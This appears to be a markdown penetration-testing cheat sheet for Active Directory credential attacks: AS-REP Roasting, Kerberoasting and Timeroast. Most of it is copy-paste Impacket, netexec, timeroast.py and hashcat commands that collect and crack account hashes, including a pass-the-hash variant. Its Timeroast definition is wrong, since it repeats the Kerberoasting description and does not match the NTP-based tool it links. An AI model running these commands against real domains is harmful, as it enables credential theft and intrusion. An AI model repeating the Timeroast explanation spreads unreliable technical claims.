 # Asreproast

AS-REP Roasting (short technical definition):
An offline credential-extraction attack that targets accounts with Kerberos pre-authentication disabled. An attacker requests an AS‑REQ for such a user, receives an AS‑REP containing an encrypted authentication blob protected by the user’s key (derived from their password), extracts that blob and performs offline cracking (e.g. brute‑force or dictionary) to recover the user’s plaintext password or key.

Impacket -> `GetNPUsers.py <domain>/ -usersfile <file with usernames> -format hashcat -outputfile <outfile with hashes>`

Netexec -> `nxc ldap <ip/machine.domain> -u <users list> -p '' --asreproast <outfile with hashes>`

<br>

# Kerberoast

An offline attack that targets Active Directory service accounts with a registered SPN. An attacker requests a service ticket (TGS) for the SPN, extracts the ticket’s encrypted service-ticket blob (encrypted with the service account’s key derived from its password), and performs offline cracking against that blob to recover the account’s plaintext password or key.

Impacket -> `GetUserSPNs.py -dc-ip <ip/machine.domain> '<domain>/<user>:<password>' -outputfile <outfile with hashes>`

Impacket pass-the-hash -> `GetUserSPNs.py -dc-ip <ip/machine.domain> '<domain>/<user>:' -outputfile <outfile with hashes> -hashes :<nthash>`

Netexec -> `nxc ldap <ip/machine.domain> -u <users list> -p <password/ -H hash> --kerberoasting <outfile with hashes>`

<br>

# Timeroast

Timeroast is an Active Directory attack technique that targets Kerberos authentication by extracting service tickets (TGS) for accounts with Service Principal Names (SPNs). These tickets are encrypted with the service account’s NT hash, which the attacker can capture and crack offline using brute force or dictionary attacks. The goal is to recover the service account’s password, which often has high privileges and rarely changes.

Example:

`python3 timeroast.py <dc_ip> > hashs ; hashcat -m 31300 -a 0 hashs rockyou.txt --username`

https://github.com/SecuraBV/Timeroast/tree/main
